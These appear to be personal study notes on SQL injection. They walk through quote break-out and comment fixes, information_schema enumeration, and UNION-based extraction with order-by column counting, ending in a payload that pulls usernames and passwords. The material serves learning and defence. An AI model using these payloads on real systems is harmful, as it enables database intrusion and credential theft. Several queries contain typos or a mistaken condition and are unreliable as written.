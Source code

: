## What is this?
- Type of injection, the interjected data is Query
- Still exists, header to find
- from Web application Security book:
	- the result of these developments is that there is less SQL injection across the entire web. in act, injection vulnerabilities in 2020 to less than 1 % vulnerabilities found today.
## Intents
- Extracting data, referenced as dumping data
- adding or modifying data(need batch queries, not working everywhere)
- Performing DOS (not desirable)
- Bypassing authentication(direct, indirect)
- Privilege escalation
## Entry Points
- Every part of **HTTP packet** could be a entry point, such as Cookies, User Agent, username name , etc
## Simplest SQLi
- in the SQLi, attackers alter the SQL query. They sometimes **break out the context** by some characters such as **single or double quote**, then they **fix the query** to avoids SQL error Sometimes the break or to fix not easy.
- ## review
	```sql
	select * from credentials where username = 'salar' and passsword = 'password'
```
- The break out
```sql
--username: salar'  #password: salar  
select * from credentials where username = 'salar'' and passsword = 'password'
```
- The fix
```sql
--username: salar'# passord: salar 
	select * from credentials where username = 'salar'-- and passsword = 'password'
```
## can exercise in this [repo](https://github.com/appsecco/sqlinjection-training-app/tree/master) page login1.php 

## Interactions
-  Data returns directly to the user
    - Direct result
        - A new site loading the news by ID 
- Data processed, the results return to the user
- Nothing returns to the user

- #### Direct result
    - A news site loading the news by ID
        - https://news.com/news/54
        - Backend query (which one?)
```sql
select * from news wehre news_id = $NEWSID;
select * from news wehre news_id = $NEWSID'; 
select * from news wehre news_id = $NEWSID";
```
- can Exploited by **UNION**
- #### Indirect Result
	- A shop checking the quaint of on item in the database
	- Backend query
		- `select if (( select count form products where product_id = $PRODUCT_ID) > 0,1,0) a`
	- the blind sql injection works here (boolean based)
- #### No Results
	- A website inters user`s information (ipm user agent, etc) into a database
	- https://site.com
	- backend query
		- `insert into table-name value (v1, v2)`
	-  The blind sql injection works here(time base)
- ## Exploitation Flow
- ![[flow1.png]]
- #### Data Extraction
	- in deer to extract data in SQL injection , attackers should know the database, table and column name
		- ![[flow2.png]]
		- #### but how
			- with **information_schema database**
			- show all **database** which the user has access to
				- <span style="color: red;">`select schema_name from information_schema.schemata`</span>
				- <span style="color: red;">database()</span>
			- show all tables 
				- <span style="color: red;">select table_name from information_schema.tables</span>
			- show all columns
				- <span style="color: red;">select column_name form information_schema.columns</span>
		- Various filter can be applied here, for example Query below returns only column names fora specif database and table
```sql 
select group_concat(column_name) from information_schema.columns where table_name='database_name' and table_name='table_name'
```
## UNION Based injection 
- ### detection
	- In this technique, an attacker can easily pull the data out since the web application **prints the data**, Before anything , lets review <span style="color: red;">union select</span> and <span style="color: red;">order by</span>
		- When using <span style="color: red;">order by</span> , **column name** or  **column number** can be used (if column number does not exist, an error will raise)
		- When using <span style="color: red;">union select</span> , the number of columns (and order of columns) of all queries must **be same**
		- <span style="color: red;">union select</span> cannot be used after <span style="color: red;">order by</span>
		- Now let's back to our topic, the vulnerability can be done by <span style="color: red;">order by</span>
```txt
Defualt request:
page/id=54

Test 1:
page/?id=54 order by 1
page/?id=54' order 1#
page/?id=54" order by1#


Test 2:
page/?id=54 order by 1000
page/?id=54' order by 1000#
page/?id=54" order by 1000#
```
- We can confirm the SQLi when results of
	- Default == Test 1
	- Test 1 =/ Test 2
## UNION based injection Exploitation
- The number of selected columns can be revealed <span style="color: red;">order by</span>
- ![[2025-01-05_22-31.png]]
- In the following example, the column number of the <span style="color: red;">select</span> is <span style="color: red;">3</span> :
```
page/?id=54 order by 1 #same as defualt request
page/?id=54 order by 2 #same as defualt request
page/?id=54 order by 3 #same as defualt request
page/?id=54 order by 4 # not same as default request
```
- Now we can extend the inner <span style="color: red;">select</span> by <span style="color: red;">union select</span>
```sql
page/?id=54 union select 1,2,3#
```
- Now lets pullout the data 
	- we should know the name of the database -> <span style="color: red;">database()</span>
	- `information_schema.schemata`
- We Should know the names of the tables
```sql
information_schema.tables
information_schema.tables where table_name = 'database_name'
```
- we should know the names of the columns
```sql
information_schema.columns
information_schema.columns where table_name = 'database_name' and table_name = 'table_name'
```
- we can pull out the data by
```txt
page/?id=54 union select column_name_1, column_name_2,3 from table_name
page/?id=54 union select username, password,3 from users
```
## [[sqlmap]]

